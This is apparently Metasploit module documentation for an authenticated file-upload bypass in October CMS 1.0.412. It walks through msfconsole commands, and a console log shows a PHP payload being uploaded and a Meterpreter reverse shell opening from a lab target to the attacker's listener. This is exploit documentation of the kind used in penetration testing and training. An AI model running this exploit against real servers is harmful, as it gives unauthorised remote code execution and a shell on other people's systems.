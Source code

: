 ## Description

  An authenticated user with permission to upload and manage media contents can
  upload various files on the server. The application prevents the user from
  uploading PHP code by checking the file extension. It uses blacklist based
  approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
  Definitions.php:blockedExtensions().

## Vulnerable Software

  October CMS v1.0.412 (build 412)
  https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/october_upload_bypass_exec```
  4. Do: ```set RHOSTS <ip>``
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. You should get a shell.

## Verification Steps

  ```
  msf5 > use exploit/multi/http/october_upload_bypass_exec
  msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
  rhosts => 10.10.10.16
  msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
  verbose => true
  msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
  lhost => 10.10.14.8
  msf5 exploit(multi/http/october_upload_bypass_exec) > run 

  [*] Started reverse TCP handler on 10.10.14.8:4444 
  [+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
  [+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
  [*] Trying to Login ......
  [+] Authentication successful: admin:admin
  [*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
  [*] Sending stage (38247 bytes) to 10.10.10.16
  [*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530
  [+] Deleted WLMVDKmVpCX.php5

  meterpreter > sysinfo 
  Computer    : october
  OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
  Meterpreter : php/linux
  meterpreter > 
  ```
